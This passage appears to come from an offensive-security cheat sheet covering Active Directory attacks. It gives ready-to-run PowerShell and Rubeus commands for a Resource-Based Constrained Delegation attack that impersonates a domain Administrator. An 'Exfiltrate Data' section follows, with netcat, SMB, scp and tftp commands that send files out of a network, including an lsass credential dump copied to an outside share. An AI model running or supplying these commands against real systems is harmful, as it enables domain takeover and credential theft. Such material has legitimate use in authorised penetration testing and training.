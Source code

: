 ##### Resource Based Constrained Delegation

```powershell
New-MachineAccount -MachineAccount <MachineAccountName> -Password $(ConvertTo-SecureString 'p@ssword!' -AsPlainText -Force) -Verbose
$ComputerSid = Get-DomainComputer <MachineAccountName> -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer TargetMachine | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
Rubeus.exe hash /password:'p@ssword!'
Rubeus.exe s4u /user:<MachineAccountName> /rc4:<RC4HashOfMachineAccountPassword> /impersonateuser:Administrator /msdsspn:cifs/TargetMachine.wtver.domain /domain:wtver.domain /ptt

#In Constrain and Resource-Based Constrained Delegation if we don't have the password/hash of the account with TRUSTED_TO_AUTH_FOR_DELEGATION that we try to abuse, we can use the very nice trick "tgt::deleg" from kekeo or "tgtdeleg" from rubeus and fool Kerberos to give us a valid TGT for that account. Then we just use the ticket instead of the hash of the account to perform the attack.
```

* * *

# Exfiltrate Data

```powershell
Sending File
nc -vn 172.21.23.10 4444 < file.txt
Getting File
nc -lnvp 4444 > file.txt
```

```powershell
sudo impacket-smbserver -comment "SHARE" TMP /tmp -smb2support
copy-item -path c:\users\public\lsass.dmp \\172.21.23.27\tmp\lsass.dmp
```

```powershell
scp file.txt remote_username@10.10.0.2:/remote/directory
```

```powershell
python -m pyftpdlib -p 21
tftp -i ip-addr {GET | PUT} file
```

* * *

# Privilege Escalation

##### CMD
